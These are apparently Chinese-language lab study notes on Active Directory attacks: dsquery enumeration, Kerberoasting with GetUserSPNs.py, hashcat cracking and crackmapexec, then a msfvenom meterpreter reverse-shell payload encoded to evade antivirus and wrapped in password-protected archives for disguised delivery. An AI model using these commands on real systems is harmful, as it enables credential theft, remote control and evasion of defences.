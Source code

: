 **C:\Windows\System32\dsquery.dll**

```powershell-session
dsquery user
dsquery computer
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```

 `userAccountControl:1.2.840.113556.1.4.803:=8192` .这些字符串是常见的 LDAP 查询，也可以与多种不同的工具一起使用，包括 AD PowerShell、ldapsearch 等。`=8192` 表示我们想要在此搜索中匹配的十进制位掩码。此十进制数对应于相应的 UAC 属性标志，该标志确定是否`不需要密码`等属性或设置了`帐户已锁定 `。这些值可以复合并生成多个不同的 bit entry。

## 6.8 Linux Kerberoasting 

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

# 七、Metasploit

许多人经常认为漏洞利用的失败反驳了可疑漏洞的存在。然而，这只是证明 Metasploit 漏洞不起作用，而不是漏洞不存在。这是因为许多漏洞需要根据目标主机进行定制才能使漏洞发挥作用。因此，Metasploit 框架等自动化工具只能被视为支持工具，而不是我们手动技能的替代品。

msfvenom对很多AV已经不生效了，这是因为仅基于签名的恶意文件分析已成为过去。 `Heuristic analysis, machine learning, and deep packet inspection` 使有效负载更难通过编码方案的几次后续迭代来逃避任何好的 AV 软件。

## 7.1 invasion

Packers有效负载与可执行程序和解压缩代码一起打包在一个文件中。

```
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

```
双重加密 + 伪装”压缩来传递hacktool
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
rar a ~/test.rar -p ~/test.js
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```
